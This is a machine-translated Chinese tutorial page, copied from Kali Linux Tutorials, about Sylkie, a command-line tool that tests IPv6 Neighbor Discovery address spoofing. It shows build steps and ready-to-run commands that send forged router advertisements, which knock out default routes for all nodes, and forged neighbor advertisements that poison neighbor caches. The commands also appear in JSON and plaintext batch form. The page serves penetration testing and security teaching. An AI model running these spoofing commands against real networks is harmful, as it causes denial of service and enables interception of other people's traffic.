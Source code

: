 # syl kie–使用邻居发现协议的 IPv6 地址欺骗

> 原文：<https://kalilinuxtutorials.com/sylkie-ipv6-address-spoofing/>

Sylkie 是一个命令行设备和库，用于测试使用邻居发现协议的 IPv6 系统中的正常地址欺骗安全漏洞。这项事业仍处于早期发展阶段。万一你继续遇到任何问题，请考虑提出一个问题。它目前只是继续在 Linux 上运行。

## **建造西尔基**

获取代码并编译它！

```
`# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install` 
```

**也读作[FireMaster——火狐主密码恢复工具](https://kalilinuxtutorials.com/firemaster-password-recovery-tool/)**

## **基本用法**

下面介绍 sylkie 的基本用法。运行 sylkie -h 或 sylkie <subcommand>-h 以获得更多细节，或者查看高级用法以获得更多示例。</subcommand>

**注意:** sylkie 使用原始套接字发送伪造的广告。因此，可执行文件必须设置 setuid 位，或者必须以 root 用户身份运行。

## **【DoS(路由器广告)**

router-advert 命令的基本用法如下所示。该命令将向给定 ip 或所有节点多播地址发送路由器广告消息，使目标节点从其默认路由列表中删除 <router-ip>/ <prefix>。</prefix></router-ip>

```
**`sylkie ra -i <interface> \
--target-mac <mac of router> \
--router-ip <ip of router> \
--prefix <router prefix> \
--timeout <time between adverts> \
--repeat <number of times to send the request>`** 
```

#### **路由器广告示例**

```
`sylkie ra -i ens3 \
--target-mac 52:54:00:e3:f4:06 \
--router-ip fe80::b95b:ee1:cafe:9720 \
--prefix 64 \
--repeat -1 \
--timeout 10` 
```

这将向链路本地范围所有节点地址 ff02::1 发送“伪造的”路由器广告，导致所有节点从它们的默认路由列表中删除 fe80::b95b:ee1:cafe:9720/64(链路层地址 52:54:00:e3:f4:06)。

## **【邻居广告】地址欺骗**

sylkie neighbor advert 命令的基本用法如下所示。该命令将向给定的 ip 发送伪造的邻居通告消息。

```
`sylkie na -i <interface> \
--dst-mac <dest hw addr> \
--src-ip <source ip> \
--dst-ip <dest ip address> \
--target-ip <target ip address> \
--target-mac <target mac address> \
--timeout <time betweeen adverts> \
--repeat <number of times to send the request>` 
```

#### **邻居广告示例**

```
`sylkie na -i ens3 \
--dst-mac 52:54:00:e3:f4:06 \
--src-ip fe80::61ad:fda3:3032:f6f4 \
--dst-ip fe80::b95b:ee1:cafe:9720 \
--target-ip fe80::61ad:fda3:3032:f6f4 \
--target-mac 52:54:00:c2:a7:7c \
--repeat -1 \
--timeout 3` 
```

这将向 dst-IP(fe80::b95b:ee1:cafe:9720)发送一个“伪造的”邻居公告消息，导致 target-IP(fe80::61ad:FD a3:3032:f6f 4)的邻居缓存中的硬件地址更新为 target-mac (52:54:00:c2:a7:7c)。

### **JSON**

子命令(router-advert，neighbor-advert)是一个关键字，其值是一个对象数组，关键字和值是相应的选项和值。要运行该命令，请将 json 文件的路径作为参数传递给-j 选项。

#### **例子**

要从 json 运行上面提供的 router-advert 示例，首先创建一个包含以下内容的文件。

```
**{
    "router-advert": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}** 
```

**创建文件后，开始发送包含以下内容的广告。**

```
`sylkie -j /path/to/json` 
```

### **明文**

该文件的每一行都必须与您通过命令行提供的内容完全一致，不包括 sylkie 命令。

#### **例子**

要从 json 运行上面提供的 neighbor-advert 示例，首先创建一个包含以下内容的文件。

```
**na -i ens3 --dst-mac 52:54:00:e3:f4:06 --src-ip fe80::61ad:fda3:3032:f6f4 --dst-ip fe80::b95b:ee1:cafe:9720 --target-ip fe80::61ad:fda3:3032:f6f4 --target-mac 52:54:00:c2:a7:7c --repeat -1 --timeout 3** 
```

**创建文件后，使用**开始发送广告

```
**`sylkie -x /path/to/file`** 
```

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/dlrobertson/sylkie)